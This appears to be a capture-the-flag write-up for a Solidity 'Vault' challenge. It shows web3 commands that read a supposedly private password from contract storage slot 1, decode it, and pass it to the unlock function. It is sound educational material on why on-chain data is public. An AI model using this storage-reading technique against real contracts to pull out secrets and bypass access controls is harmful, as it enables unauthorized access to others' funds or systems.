

# Vault

As I wasn't sure how to approach this. I googled "solidity bytes32 exploit" and found this(https://solidity-by-example.org/hacks/accessing-private-data/)

## Solution

This was sort of facepalm moment for me because its obvious that if the the password is stored on the blockchain anyone can see it.

```js
await web3.eth.getStorageAt(instance, 1, console.log);
```

And it gave

```js
"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
```

If we decode the hex we get: `A very strong secret password :)`

So now we can just call the unlock function with this:

```js
password = await web3.eth.getStorageAt(instance, 1, console.log);
await contract.unlock(password);
```

